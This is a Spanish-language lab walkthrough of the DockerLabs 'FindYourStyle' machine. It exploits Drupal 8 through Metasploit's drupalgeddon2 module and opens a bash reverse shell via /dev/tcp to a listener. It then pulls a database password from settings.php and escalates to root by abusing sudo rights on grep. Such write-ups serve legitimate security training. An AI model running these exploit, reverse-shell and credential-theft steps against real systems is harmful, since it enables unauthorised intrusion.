

# Maquina FindYourStyle - DockerLabs.es

Verificar que la maquina este desplegada correctamente

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

A continuación, realizamos un escaneo de la IP utilizando Nmap.

Observamos que el puerto 80 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

En este caso vemos que el puerto 80 que ejecuta un Apache y esta la web está montada con Drupal 8. Accederemos a la página web alojada en esta máquina utilizando un navegador y veremos lo siguiente.

Si hacemos una busqueda utilizando `Metasploit` encontraremos varios exploit, en mi caso yo utilicé el `exploit/unix/webapp/drupal_drupalgeddon2` el cual me dio resultados.

Primero configuramos el exploit con las configuraciones requeridas. Para ver lo que necesitamos configurar escribimos `show options`

En este caso necesitaremos modificar el RHOST solamente y lo haremos con `set RHOST <<ip-victima>>`

Y para validar que se moficó podemos volver a utilizar `show options`

Ya una vez configurado ejecutamos el comando `run` y esperamos que nos envie una sesión meterpreter...

Y vemos que ya estamos dentro.

Ahora para trabajar de forma mas comoda me pasaré a shell y luego me enviaré una y me pondre a la escuchat con Netcat de la siguiente manera.

Nos ponemos a la escucha por el puerto 4545

Y en la sesión meterpreter escribiremos `shell` que nos permitira intruducir una shell de comandos del sistema y luego de eso nos proporcionamos una `bash` y por ultimo nos enviamos una reverse shell de la siguiente forma `/bin/bash -i >& /dev/tcp/172.16.1.131/4545 0>&1`

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si vemos la lista de usuarios notaremos que hay uno llamado `ballenita`

Si hacemos una busqueda del archivo `settings.php` el cual es un archivo en Drupal de configuracion que contiene ajustes esenciales para el funcionamiento del sitio web y en el cual podemos encontrar credenciales, notaremos que el archivo esta en la ruta `/var/www/html/sites/default/settings.php`

Si leemos el contenido de dicho archivo y filtramos por la palabra `password` utilizando un `grep` veremos que contiene una posible contraseña la cual es `ballenitafeliz`

Si intentamos ingresar con el usuario `ballenita` que vimos en el `/etc/passwd` y porporcionamos la contraseña `ballenitafeliz` lograremos movernos a dicho usuario.

Si ejecutamos el comando `sudo -l` estando con el usuario `ballenita` veremos que podemos ejecutar los binarios `/bin/ls` y `/bin/grep` como el usuario `root` sin proporcionar contraseña.

Ahora si hacemos un `sudo /bin/ls -la /root/` veremos que hay un archivo de texto llamado `secretitomaximo.txt`

Ahora intentaremos leer ese archivo con `sudo /bin/grep '' /root/secretitomaximo.txt` para ver su contenido y obtendremos la siguiente cadena de texto `nobodycanfindthispasswordrootrocks`.

Si intentamos usar esta cadena texto como contraseña para acceder como `root` veremos que tenemos exito y seremos root.

